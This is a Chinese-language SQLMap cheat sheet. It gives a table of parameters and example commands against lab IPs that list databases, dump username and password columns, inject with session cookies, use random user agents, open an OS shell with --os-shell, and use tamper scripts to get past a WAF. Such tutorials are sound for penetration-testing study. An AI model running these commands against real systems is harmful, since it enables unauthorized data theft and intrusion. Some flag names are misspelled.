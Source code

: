 # [SQLMap](https://github.com/sqlmapproject/sqlmap.git)

<!--last modify: 20230816-->

SQLMap 是一款专注于SQLi 的工具，SQLmap 基于Python 语言编写的命令行工具，集成在Kali 中

## 0x00 基本参数

| 参数                      | 含义                                                         |
| ------------------------- | ------------------------------------------------------------ |
| -u                        | 检测注入点                                                   |
| --dbs                     | 列出所有的库名                                               |
| --current-user            | 当前连接数据库用户的名字                                     |
| --current-db              | 当前数据库的名字                                             |
| -D "cms"                  | 指定目标数据库为cms                                          |
| --tables                  | 列出数据库中所有的表名                                       |
| -T "cms_users"            | 指定目标表名为'cms_users'                                    |
| --columns                 | 列出所有的字段名                                             |
| -C “username,password”    | 指定目标字段                                                 |
| --dump                    | 列出字段内容                                                 |
| -r                        | 从文件中读取HTTP 请求                                        |
| --os-shell                | 在特定情况下，可以直接获得目标系统Shell                      |
| --level 3                 | 设置sqlmap 检测等级 3                                        |
| --cookie="username=admin" | 携带Cookie 信息进行注入                                      |
| -g                        | 利用Google 搜索引擎自动搜索注入点                            |
| --batch                   | 使用默认选项                                                 |
| --random-agent            | 使用随机User-Agent 信息                                      |
| -v 3                      | 显示payload                                                  |
| --param-filter=Referer    | 指定注入参数                                                 |
| --tamper “space2comment”  | 使用tamper脚本处理注入payload                                |
| --dbms=MYSQL              | 指定数据库为MYSQL                                            |
| --flush-session           | 重新扫描，不使用以前扫描的会话信息                           |
| --proxy                   | 指定代理服务器                                               |
| --delay                   | 延迟，默认无                                                 |
| --timeout                 | 超时，默认30s                                                |
| --retries                 | 重传，默认3次                                                |
| --safe-url                | 提供安全链接，间隔访问                                       |
| --safe-freq               | 间隔频率                                                     |
| -o                        | 激活所有优化(--predict-output, --keep-alive, --null-connection) |
| --threads                 | 最大并发线程                                                 |
| --predict-output,         | 优化检测范围，与--threads 参数不兼容                         |
| --keep-alive              | 使用长连接，与--proxy 参数不兼容，避免重复建立连接占服务端资源 |
| --null-connection         | 只获取页面大小，适用盲注判断，与-text-only 参数不兼容        |
| --thechnique              | B 盲注，E 报错，U 联合查询，S 堆叠，T 延迟                   |

## 0x01 基本命令

```cmd
注入点：http://10.10.10.6/cms/show.php?id=33
sqlmap -u "http://10.10.10.1/show.php?id=33"
sqlmap -u "http://10.10.10.1/show.php?id=33" --dbs
sqlmap -u "http://10.10.10.1/show.php?id=33" --current-db
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "cms" --tables
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "cms" -T "cms_users" --columns
sqlmap -u "http://10.10.10.1/show.php?id=33" -D "cms" -T "cms_users" -C "username,password" --dump

sqlmap -u "http://10.10.10.1/show.php?id=33" --cookie="PHPSESSID=iu99417npvhcpkkf835jk5ij34; security=low" -p id --dbs # GET 方法
sqlmap -u "http://10.10.10.1/show.php" --data="id=33" --cookie="PHPSESSID=iu99417npvhcpkkf835jk5ij34; security=low" -p id --dbs # POST 方法
```



```cmd
sqlmap -r bp_request.txt -p id --dbs # 结合BP 等抓包工具抓取请求包
sqlmap -l all_bp_request.txt --scope='vulnerabilities/sqli' -p id --dbs # 结合BP 等抓包工具抓取所有请求日志，利用参数--scope 进行过滤；BP 中Project options》Misc》logging》Proxy》Requests
sqlmap -u "http://10.10.10.1/show.php?id=33" --cookie="PHPSESSID=iu99417npvhcpkkf835jk5ij34; security=low" -p id --dbs --flush-session --proxy http://127.0.0.1:8080 --random-aget # 使用随机UA，代理到BP 等抓包工具；--user-agent AppointUA 指定UA

sqlmap -u "http://10.10.10.1/show.php?id=33" --cookie="PHPSESSID=iu99417npvhcpkkf835jk5ij34; security=low" -p id --dbs --flush-session --proxy http://127.0.0.1:8080 --random-aget --safe-url "http://10.10.10.1/index.jsp" --safe-freq=3
```

### 0x01x000 POST 注入

- 受到secure_file_priv 选项的限制；

- 目标系统Web 根目录的绝对路径；

  ```cmd
  sqlmap -r /tmp/login.post
  ```

- 直接 getshell

  ```cmd
  sqlmap -u "http://192.168.16.119/show.php?id=33" --os-shell
  ```

## 0x02 SQLMap 自动绕狗

将 SQLMap 源码放到 python 根目录下的 temper (绕狗脚本)
